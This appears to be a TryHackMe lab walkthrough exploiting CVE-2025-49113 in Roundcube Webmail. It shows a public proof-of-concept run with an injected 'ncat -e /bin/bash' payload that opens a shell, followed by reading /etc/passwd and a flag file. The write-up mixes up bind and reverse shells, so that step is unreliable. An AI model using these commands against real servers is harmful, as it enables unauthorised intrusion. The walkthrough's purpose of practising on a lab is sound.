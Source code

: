 ```yaml
---
title: "TryHackMe - CVE-2025-49113 Webmail Deserialization Walkthrough"
date: 2025-06-28
categories: [TryHackMe]
tags: [CTF, Deserialization, Webmail, PHP, Reverse Shell, CVE-2025-49113]
image: ./assets/images/thm-cover/cve-2025-49113-cover.jpg
---
```


# TryHackMe - CVE-2025-49113 Webmail Deserialization Walkthrough

---

## Step 1: Gaining Access to Roundcube Webmail
Start by navigating to the Roundcube Webmail login page and use the provided credentials to log in.

**Credentials**:
- **Username**: `ellieptic`
- **Password**: `ChangeMe123`

---

## Step 2: Downloading the PoC Exploit
Download the proof of concept (PoC) exploit from the GitHub repository.

```bash
sleep33@THM:~$ git clone https://github.com/fearsoff-org/CVE-2025-49113
```

Once downloaded, navigate to the folder containing the exploit files.

```bash
sleep33@THM:~$ cd CVE-2025-49113/
root@attackbox:~/CVE-2025-49113# ls
CVE-2025-49113.php  rc_install.sh  README.md
```

---

## Step 3: Running the Exploit
The PoC exploit involves creating a malicious serialized PHP object and injecting it via the `_from` parameter in the `upload.php` endpoint.

Run the PoC script to execute the payload, using the following arguments:

```bash
root@attackbox:~/CVE-2025-49113# php CVE-2025-49113.php http://<TARGET_IP>/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"
```

### Result:
- The script successfully authenticates the user.
- The malicious payload is injected into the `_from` parameter.
- The server executes the payload, establishing a bind shell on port 4444.

---

## Step 4: Establishing Reverse Shell
Once the payload is successfully executed, open a listener on port 4444 to catch the reverse shell.

```bash
sleep33@THM:~$ nc -lvnp 4444
```

### Result:
After a short delay, the shell connects back to your listener, giving you access to the server as the `www-data` user.

---

## Step 5: Searching for User Information
Search the system to identify users and gather information. Use the following command to find user details:

```bash
sleep33@THM:~$ grep "maggie" /etc/passwd
```

### Result:
- **User Found**: `maggiebyte`
- **Full Name**: `Maggie Byte`

This gave us a clue about the user we needed to find.

---

## Step 6: Searching for the Flag
Explore the `/etc` directory for a potential flag file. After listing the contents of `/etc`, you find the `flag.txt` file.

```bash
sleep33@THM:~$ cat /etc/flag.txt
```

### Flag Found:
**Flag**:
```
THM{ICE_CUBE_DESERIALISATION}
```

This is the first flag, and it corresponds to the **deserialization** vulnerability and the successful exploitation of it.

---

## Summary
In this walkthrough, we exploited a **deserialization vulnerability** in Roundcube Webmail, using a **PoC exploit** to inject a malicious payload that gave us a reverse shell. We escalated our knowledge by identifying the username and name of the user `Maggie Byte`, and eventually located the flag in the `/etc` directory.

### Flags Summary:
- **Flag 1**: `THM{ICE_CUBE_DESERIALISATION}`

---

This concludes the walkthrough for the **CVE-2025-49113** vulnerability in Roundcube Webmail. By exploiting deserialization, we gained access to the server and successfully retrieved the flag.
